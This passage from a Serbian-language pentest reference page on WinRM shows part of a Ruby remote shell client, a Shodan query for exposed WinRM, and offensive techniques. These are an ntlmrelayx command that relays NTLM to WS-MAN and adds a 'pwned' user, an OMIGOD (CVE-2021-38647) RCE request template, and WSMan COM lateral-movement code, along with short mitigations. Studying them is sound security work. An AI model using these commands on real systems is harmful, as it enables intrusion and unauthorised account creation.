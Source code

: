 ```ruby
if command.start_with?('UPLOAD') then
upload_command = command.tokenize
print("Uploading " + upload_command[1] + " to " + upload_command[2])
file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
end
command = "echo `nOK`n"
end
output = shell.run(command) do |stdout, stderr|
STDOUT.print(stdout)
STDERR.print(stderr)
end
end
puts("Exiting with code #{output.exitcode}")
end
```
## Shodan

- `port:5985 Microsoft-HTTPAPI`

---

## Nedavne ranjivosti i ofanzivne tehnike (2021-2025)

### NTLM relaying direktno na WinRM (WS-MAN)
Od Impacket 0.11 (maj 2023) `ntlmrelayx.py` može da prenese uhvaćene NTLM akreditive direktno na **WS-MAN**/WinRM slušalac. Kada host još uvek sluša na **nešifrovanom HTTP (5985)**, napadač može da kombinuje *mitm6* (ili *Responder*) da bi primorao autentifikaciju i dobio izvršavanje koda na SISTEM nivou:
```bash
sudo ntlmrelayx.py -t wsman://10.0.0.25 --no-smb-server -smb2support \
--command "net user pwned P@ssw0rd! /add"
```
Mitigacije
* Onemogućite HTTP slušaoce – `Set-Item WSMan:\localhost\Service\EnableCompatibilityHttpListener -Value false`
* Prisilite HTTPS i omogućite proširenu zaštitu za autentifikaciju (EPA) na novijim verzijama Windows-a.

### OMIGOD – CVE-2021-38647 (Azure OMI)
Azure Linux agenti koriste **Open Management Infrastructure (OMI)** servis koji izlaže WinRM/WS-MAN API na portovima **5985/5986**. Logička greška je omogućila **neautentifikovani RCE kao root**:
```text
curl http://victim:5985/wsman -H 'Content-Type:text/xml' -d '<xml …/>'
```
Patch or remove OMI (version ≥ 1.6.8-1) and block those ports from the Internet.

### WSMan.Automation COM zloupotreba za lateralno kretanje
WinRM se može koristiti bez PowerShell-a putem `WSMan.Automation` COM objekta – korisno na sistemima u režimu ograničenog jezika. Alati kao što su *SharpWSManWinRM* obavijaju ovu tehniku:
```powershell
$ws = New-Object -ComObject 'WSMan.Automation'
$session = $ws.CreateSession('http://srv01:5985/wsman',0,$null)
$cmdId   = $session.Command('cmd.exe',@('/c','whoami'))
$session.Signal($cmdId,0)
```
Lanac izvršenja (`svchost → wmiprvse → cmd.exe`) je identičan klasičnom PS-Remoting-u.

---